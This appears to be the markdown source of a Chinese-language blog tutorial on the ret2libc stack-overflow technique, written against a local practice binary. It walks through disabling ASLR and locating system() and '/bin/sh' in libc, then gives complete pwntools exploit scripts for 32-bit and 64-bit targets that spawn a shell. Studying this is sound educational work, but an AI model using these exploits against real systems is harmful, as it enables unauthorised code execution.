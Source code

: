 ```yaml
---
title: ret2libc
subtitle: 标准 ROP 漏洞利用
date: 2023-08-18T10:43:24+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


ret2libc 基于 C 标准库中的 `system` 函数。该函数会执行传递给它的任何内容，
这使其成为最佳攻击目标。libc 中的另一个内容是字符串 `/bin/sh` ；如果你将
此字符串传递给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system` 。

<!--more-->

{{< link href="/pwn_assets/ret2libc.zip" content="ret2libc.zip" title="Download ret2libc.zip" download="ret2libc.zip" card=true >}}

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的地址，这意味着我们无法计算出
`system()` 和 `/bin/sh` 的位置。为了便于你理解一般理论，我们将从禁用它开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们用它来查看编译好的 ELF
文件，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

`libc.so.6` 是我们需要的 libc 文件，所以 libc 的地址是 `0xf7c00000` 。

{{<admonition type="info">}}

`libc` 地址以及 `system()` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是
意味着你有不同的版本的 `libc` 。

{{</admonition>}}

### 1x02 获取 system() 的地址

为了调用 `system()` ，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量
和函数名**。这里我们可以发现 `system()` 距 `libc` 库的偏移量是 `0x4f610` 。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用
`strings` 指令。注：当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串
的十六进制表示形式，因为这就是 C 语言所规定的方式。

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76             # Padding 到 EIP
payload += p32(system_addr)     # system() 的地址
payload += p32(0x0)             # 避免异常
payload += p32(shell_addr)      # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

注：你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
$ ROPgadget --binary vuln-64 | grep rsi
[...]
0x00000000004011c9 : pop rsi ; pop r15 ; ret
[...]
```

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72             # Padding 到 RIP
payload += p64(POP_RDI)         # pop rdi ; ret
payload += p64(shell_addr)      # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)     # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2         # 填充 rsi 和 r15
payload += p64(system_addr)     # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

## 0x03 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python {title="exp.py"}
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                                 # 获取程序正在使用的 libc
libc.address = 0xf7c00000                       # 设置 libc 地址

system_addr = libc.sym['system']                # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))      # 获取 /bin/sh 的地址

payload = b'A' * 76                             # Padding 到 EIP
payload += p32(system_addr)                     # system() 的地址
payload += p32(0x0)                             # 避免异常
payload += p32(shell_addr)                      # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

{{<admonition type="tip">}}

如果题目提供了 libc ，也可以这样用：

{{< typeit code=python >}}
libc = ELF('libc.so.6')

print(libc.sym['system'])
{{< /typeit >}}

{{</admonition>}}

{{<admonition type="info">}}

pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。

{{</admonition>}}

